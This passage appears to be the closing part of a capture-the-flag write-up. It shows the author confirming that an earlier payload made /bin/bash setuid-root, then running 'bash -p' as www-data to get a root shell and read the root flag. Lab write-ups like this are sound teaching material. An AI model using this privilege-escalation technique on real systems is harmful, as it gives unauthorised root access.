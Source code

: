 After a couple of seconds, we see that the file has been deleted, meaning that our payload has been executed.

We can check the `bash` binary and upgrade to Root Shell.

```bash
www-data@interface:/tmp$ ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.1M Apr 18  2022 /bin/bash

www-data@interface:/tmp$ bash -p

bash-4.4# cat /root/root.txt
<**REDACTED**>
```

Pwned!
